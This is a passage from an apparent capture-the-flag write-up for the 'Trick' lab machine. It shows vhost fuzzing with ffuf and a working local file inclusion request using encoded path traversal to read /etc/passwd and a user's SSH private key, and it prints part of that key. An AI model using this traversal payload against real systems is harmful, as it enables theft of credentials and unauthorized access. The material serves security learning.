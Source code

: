 We're now able to login to the web application, but there isn't anything obvious at first glance. We find some information about employee `Smith, John C`, but I'm not able to do anything with that information. Trying different user combinations towards SSH all fails. 

---------------------
### Step 3

I firmly believe we've milked this resource and need to find a new source, so lets continue fuzzing for more vhosts.

```bash
➜  trick ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://trick.htb -H "Host: preprod-FUZZ.trick.htb" -fs 5480
[... snip ...]
marketing               [Status: 200, Size: 9660, Words: 3007, Lines: 179]
payroll                 [Status: 302, Size: 9546, Words: 1453, Lines: 267]
```

The marketing site seems to be similar to payroll, where the data is presented through the `page` url parameter.
Trying some standard Burp LFI lists and we get one match! We're able to read `/etc/hosts`

![[Pasted image 20220620215128.png]]

Send the request to the `repeater` and grab `/etc/passwd` to find valid users.

![[Pasted image 20220620215300.png]]

User `michael` seems like our guy! Note that he has UID 1001, and 1000 is no where to be seen - interesting! Look if michael has an `id_rsa` we can steal.

**Request:**
```bash
GET /index.php?page=%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2f%2e%2e%2e%2e%2f%2fhome%2fmichael%2f.ssh%2fid_rsa HTTP/1.1
Host: preprod-marketing.trick.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://preprod-marketing.trick.htb/index.php?page=contact.html
Upgrade-Insecure-Requests: 1
```

**Response:**
```bash
HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Mon, 20 Jun 2022 19:54:38 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 1823

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
```